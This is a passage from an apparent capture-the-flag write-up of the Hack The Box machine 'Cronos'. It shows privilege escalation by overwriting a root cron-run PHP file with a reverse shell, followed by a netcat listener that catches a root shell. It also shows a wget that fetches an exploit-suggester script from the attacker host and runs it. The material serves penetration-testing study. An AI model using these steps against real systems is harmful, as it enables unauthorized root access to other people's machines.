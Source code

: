 Looking at the `artisan` file, the cron job wass running the file using the PHP command so whatever code I add should be in PHP.

So I headed over to [Pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and grabed the PHP reverse shell file, changed the IP and Port according to my machine, transferred it to the same `/var/www` directory and then copied the contents of `php-reverese-shell` to the `artisan` i.e rewrote it.

Set up another listener and waited for a minute and I had a root privileged reverse shell.
```
┌──(darshan㉿kali)-[~/Desktop]
└─$ nc -lvnp 7777
listening on [any] 7777 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.13] 41768
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 07:53:01 up  1:05,  0 users,  load average: 0.00, 0.03, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

I grabbed the root flag
```
# cat /root/root.txt
[REDACTED]
```

Another way to find ways to escalated the privileges is to transfer [Linux-Exploit-Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester) and run it on the target machine to see if the machine is vulnerable to any privilege escalation exploits.

```
$ wget http://10.10.14.6:9999/linux-exploit-suggester.sh
--2023-01-19 08:00:04--  http://10.10.14.6:9999/linux-exploit-suggester.sh
Connecting to 10.10.14.6:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 83454 (81K) [text/x-sh]
Saving to: 'linux-exploit-suggester.sh'

     0K .......... .......... .......... .......... .......... 61%  199K 0s
    50K .......... .......... .......... .                    100%  257K=0.4s

2023-01-19 08:00:04 (218 KB/s) - 'linux-exploit-suggester.sh' saved [83454/83454]

$ chmod +x linux-epxloit-suggester.sh
chmod: cannot access 'linux-epxloit-suggester.sh': No such file or directory
$ chmod +x linux-exploit-suggester.sh
$ ./linux-exploit-suggester.sh

Available information:

Kernel version: 4.4.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 16.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

73 kernel space exploits
43 user space exploits

Possible Exploits:
```
